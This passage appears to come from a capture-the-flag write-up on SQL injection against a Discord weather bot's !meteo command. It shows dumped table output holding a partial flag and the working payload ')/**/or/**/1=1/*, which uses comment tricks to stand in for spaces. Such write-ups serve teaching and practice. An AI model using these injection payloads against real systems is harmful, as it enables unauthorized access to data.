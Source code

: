 ```
| 8  |       Budapest       |       3       |
| 9  |       Chisinau       |       11      |
| 10 |      Copenhague      |       25      |
| 11 |        Dublin        |       28      |
| 12 |       Helsinki       |       23      |
| 13 |         Kiev         |       18      |
| 14 |       Valette        |       23      |
| 15 |       Lisbonne       |       20      |
| 16 |      Ljubljana       |       25      |
| 17 |       Londres        |       24      |
| 18 |      Luxembourg      |       28      |
| 19 |        Madrid        |       14      |
| 44 | 109pUjkEezHhFGrCpHIg | MCTF{11K3_0r_ |
+----+----------------------+---------------+
```

And here we have the first part of the flag MCTF{11K3_0r_

## Second exploit

Apparently we didn't found all the secrets of the bot.

The only remaining possibility I see is a SQL injection in the paramter of !meteo

But payload like ' or 1=1 -- - didn't work.

So, I decided to replace all spaces with `/**/` cause discord bots uses spaces to differenciate the parameters.

But that didn't work either.

That's when I thought of something, what if there was a ). So I tried


```
!meteo ')/**/or/**/1=1/*

| id |       capital        |  temperature  |
+----+----------------------+---------------+
| 0  |      Amsterdam       |       2       |
| 1  |       Athènes        |       16      |
| 2  |       Belgrade       |       5       |
| 3  |        Berlin        |       0       |
| 4  |        Berne         |       16      |
| 5  |      Bratislava      |       12      |
| 6  |      Bruxelles       |       8       |
| 7  |       Bucarest       |       1       |
| 8  |       Budapest       |       3       |
| 9  |       Chisinau       |       11      |
| 10 |      Copenhague      |       25      |
| 11 |        Dublin        |       28      |
| 12 |       Helsinki       |       23      |
| 13 |         Kiev         |       18      |
| 14 |       Valette        |       23      |
| 15 |       Lisbonne       |       20      |
| 16 |      Ljubljana       |       25      |
| 17 |       Londres        |       24      |
| 18 |      Luxembourg      |       28      |
| 19 |        Madrid        |       14      |
| 44 | 109pUjkEezHhFGrCpHIg | MCTF{11K3_0r_ |
+----+----------------------+---------------+
```
